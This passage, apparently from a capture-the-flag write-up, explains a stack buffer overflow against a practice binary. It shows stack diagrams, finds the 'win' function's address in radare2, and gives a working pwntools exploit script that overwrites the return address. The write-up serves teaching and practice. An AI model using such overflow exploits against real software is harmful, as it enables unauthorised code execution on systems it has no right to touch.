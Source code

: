 ```
HIGH MEMORY ADDRESSES
---- TOP ----
-> return address of main
-> old ebp
-> Space
   for
   Local variables
-- BOTTOM ---
LOWER MEMORY ADDRESSES
```

Here is what we will manipulate the stack to look like with our input to get the win function to run. 

```
HIGH MEMORY ADDRESSES
---- TOP ----
-> return address of win that we sent through our input
-> 4 A's to fill up the space of EBP
-> 24 A's to fill up var_18h
-- BOTTOM ---
LOWER MEMORY ADDRESSES
```

Using radare, we can find the address of win. You can look through the disassembly by scrolling up to find the symbol that represents the win function. Then you can seek it. The memory address that appears will be the address of win. 

```
[0x080491c0]> s sym.win
[0x080491c2]> 
```

Let's write our initial exploit using pwn tools in python. 

```
#!/usr/bin/env python2

from pwn import *

#start the ./pwn1 process and save it in variable p
p = process('./bufover-2')

exploitBufferToOverwriteVarAndEBP = "A"*28

returnAddressOfWin = p32(0x080491c2)

exploitToSend = exploitBufferToOverwriteVarAndEBP + returnAddressOfWin

print(exploitToSend)
print(p.recvuntil('something'))

print(p.sendline(exploitToSend))

print(p.recv())
print(p.recv())
```
